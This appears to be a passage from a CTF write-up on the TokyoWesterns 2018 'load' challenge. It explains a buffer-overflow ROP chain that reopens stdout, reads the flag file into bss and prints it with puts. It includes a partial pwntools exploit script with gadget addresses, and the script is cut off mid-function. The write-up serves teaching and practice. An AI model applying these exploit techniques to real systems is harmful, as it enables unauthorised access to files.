 ##### print flag

Our objective now is to call the equivalent of this line of C code:

```
puts(0x601000)
```

`0x601000` is the bss address that we just scanned in the contents of the flag into with the previous `read` call. Since puts just takes a char pointer as an argument, we should be able to just call `puts` with the argument of `0x601000` and get the flag:

* Pop `0x601000` into `rdi`
* Call puts (plt address)

##### Pop Rdx

Also since there isn't an easy gadget to pop values into the `rdx` register (like there is for `rsi` and `rdi`) we will have to use `csu_init`. Look at the exploit for more details.

## tl;dr

* Elf scans in data from file user inputs file path to, has buffer overflow
* Scan in data from /proc/self/fd/0 to input payload to elf via `STDIN`
* Use a ROP Chain to open up a new `STDOUT` (original was closed) and the flag file, scan the flag file contents into memory, then print it using `puts`

## Exploit

Here is the code for the exploit:

```
# This exploit is from: https://lordidiot.github.io/2018-09-03/tokyowesterns-ctf-2018-load-pwn/

# Import pwntools
from pwn import *

# Declare some variables needed later. The flag file on the server was /home/load/flag.txt, I just changed it to run on my local system
stdinSL = "/proc/self/fd/0"
stdout = "/dev/pts/2"
flag = "/home/guy/flag.txt"

# Declare needed plt functions
openPlt = p64(0x400710)
readPlt = p64(0x4006e8)
putsPlt = p64(0x4006c0)

# Delcare the target process
target = process('./load')
#gdb.attach(target)

# Establish the functions to pop values 
def popRdi(arg):
	return p64(0x400a73) + p64(arg)
	# 0x400a73 : pop rdi ; ret

def popRsi(arg):
	return p64(0x400a71) + p64(arg) + p64(0xdead)
	# 0x400a71 : pop rsi ; pop r15 ; ret

# This function is different from the rest, since there isn't a pop rdx gadget, we had to get creative and use csu_init
def popRdx(arg):
	segment = p64(0x400a6b)
	# 0x400a6b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
```